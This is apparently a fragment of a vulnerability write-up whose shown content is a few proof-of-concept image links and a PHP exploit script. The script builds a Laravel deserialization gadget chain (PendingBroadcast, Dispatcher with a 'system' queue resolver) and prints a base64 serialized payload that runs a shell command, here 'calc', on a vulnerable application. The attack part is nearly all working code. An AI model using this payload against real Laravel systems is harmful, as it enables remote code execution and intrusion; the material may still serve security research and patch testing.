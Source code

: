 <img src="./images/poc-5-3.png" alt="">

<img src="./images/poc-5-4.png" alt="">

<img src="./images/poc-5-5.png" alt="">

### exp
```php
<?php
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver = "system";
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    class BroadcastEvent {
        public $connection;
        public $event;
        public function __construct() {
            $this->event = "calc";
            $this->connection = $this->event;
        }
    }



    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```
